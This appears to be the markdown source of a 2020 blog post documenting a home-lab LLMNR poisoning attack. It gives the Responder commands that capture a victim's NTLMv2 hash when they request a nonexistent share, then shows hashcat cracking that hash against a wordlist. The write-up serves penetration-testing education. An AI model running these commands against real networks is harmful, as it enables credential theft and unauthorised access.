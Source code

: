 ```yaml
---
layout: post
title: "Link-Local Multicast Name Resolution (LLMNR) Attack Lab"
twitter_image: /images/LLMNR-AttackLab/Diagram3.png
description: "Link-Local Multicast Name Resolution (LLMNR) Attack Lab."
date: 2020-06-11
feature_image: /images/LLMNR-AttackLab/Diagram3.png
tags: [CyberSecurity]
hashtags: CyberSecurity
---
```


This blog post is about LLMNR attack. LLMNR attack is commonly used by Penetration testers during an engagement to get their hands on NLMv2 hash. The captured hash is either used to obtain the original password or used in the pass the hash attack.
<!--more-->

If you are looking for more information on LLMNR here’s an excellent [resource](https://attack.mitre.org/techniques/T1171/)

```
kali@kali:~/Responder$ git clone https://github.com/lgandx/Responder.git
```
{% include diagram.html imageurl="/images/LLMNR-AttackLab/Diagram1.png" caption="" %}

```
kali@kali:~$ sudo ifconfig
```

{% include diagram.html imageurl="/images/LLMNR-AttackLab/Diagram2.png" caption="" %}

```
kali@kali:~/Responder$ sudo ./Responder.py -I eth0 -rdwv
```
{% include diagram.html imageurl="/images/LLMNR-AttackLab/Diagram3.png" caption="" %}

{% include diagram.html imageurl="/images/LLMNR-AttackLab/Diagram4.png" caption="" %}

Let’s try to access non existing shared drive called “catland”. Seeing this request responder reply backs to our machine which in turn result in our machine sending username and NTLMv2 password.

{% include diagram.html imageurl="/images/LLMNR-AttackLab/Diagram5.png" caption="" %}

{% include diagram.html imageurl="/images/LLMNR-AttackLab/Diagram6.png" caption="" %}

Save the captured hash into a file called “kreese”

{% include diagram.html imageurl="/images/LLMNR-AttackLab/Diagram7.png" caption="" %}

On a fresh install of Kali, you need to unzip the rockyou wordlist. It is stored at /usr/share/wordlist directory.

```
kali@kali:~$ cd /usr/share/wordlists/
kali@kali:/usr/share/wordlists$ ls
dirb dirbuster fasttrack.txt fern-wifi metasploit nmap.lst rockyou.txt.gz wfuzz
kali@kali:/usr/share/wordlists$ gunzip rockyou.txt.gz
gzip: rockyou.txt: Permission denied
kali@kali:/usr/share/wordlists$ sudo gunzip rockyou.txt.gz
kali@kali:/usr/share/wordlists$ ls
dirb dirbuster fasttrack.txt fern-wifi metasploit nmap.lst rockyou.txt wfuzz
kali@kali:/usr/share/wordlists$ cd
```
{% include diagram.html imageurl="/images/LLMNR-AttackLab/Diagram8.png" caption="" %}

This command might not work if you are running Kali as a virtual machine. It’s always a good idea to run it on the guest operating system. Since i don’t want machine spending hours cracking the password which i already know for testing purpose i created a custom password list called “guessList” containing password used for test lab.

```
kali@kali:~$ hashcat -m 5600 kreese guessList — force
```
{% include diagram.html imageurl="/images/LLMNR-AttackLab/Diagram9.png" caption="" %}

{% include diagram.html imageurl="/images/LLMNR-AttackLab/Diagram10.png" caption="" %}


